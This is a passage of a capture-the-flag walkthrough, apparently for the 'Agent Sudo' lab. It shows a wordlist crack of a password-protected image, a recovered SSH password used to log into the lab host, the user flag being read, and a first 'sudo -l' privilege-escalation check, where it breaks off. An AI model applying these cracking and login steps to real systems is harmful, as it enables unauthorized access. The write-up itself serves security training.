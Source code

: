 ```
No wordlist was specified, using default rockyou.txt wordlist.  
Counting lines in wordlist..  
Attacking file 'cute-alien.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..  
Successfully cracked file with password: Area51doro1111  
Tried 445683 passwords  
Your file has been written to: cute-alien.jpg.out  
Area51
```
lets see what is inside it 
```
cat cute-alien.jpg.out  
Hi james,  
  
Glad you find this message. Your login password is hackerrules!  
  
Don't ask me why the password look cheesy, ask agent R who set this password for you.  
  
Your buddy,  
chris
```
so the person with codename j is james and we have his password 
let login with it 
```
ssh james@10.201.32.87    
  
The authenticity of host '10.201.32.87 (10.201.32.87)' can't be established.  
ED25519 key fingerprint is SHA256:rt6rNpPo1pGMkl4PRRE7NaQKAHV+UNkS9BfrCy8jVCA.  
This key is not known by any other names.  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes  
Warning: Permanently added '10.201.32.87' (ED25519) to the list of known hosts.  
james@10.201.32.87's password:    
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)  
  
* Documentation:  https://help.ubuntu.com  
* Management:     https://landscape.canonical.com  
* Support:        https://ubuntu.com/advantage  
  
 System information as of Tue Sep 16 06:33:28 UTC 2025  
  
 System load:  0.24              Processes:           102  
 Usage of /:   39.7% of 9.78GB   Users logged in:     0  
 Memory usage: 24%               IP address for ens5: 10.201.32.87  
 Swap usage:   0%  
  
  
* Canonical Livepatch is available for installation.  
  - Reduce system reboots and improve kernel security. Activate at:  
    https://ubuntu.com/livepatch  
  
75 packages can be updated.  
33 updates are security updates.  
  
  
Last login: Tue Oct 29 14:26:27 2019  
james@agent-sudo:~$ ls  
Alien_autospy.jpg  user_flag.txt  
james@agent-sudo:~$ cat user_flag.txt  
b03d975e8c92a7c04146cfa7a5a313c7
```
now we have user privilage we need to get root privilage 
lets check common privilage escalation vector
```
james@agent-sudo:~$ sudo -l  
[sudo] password for james:    
```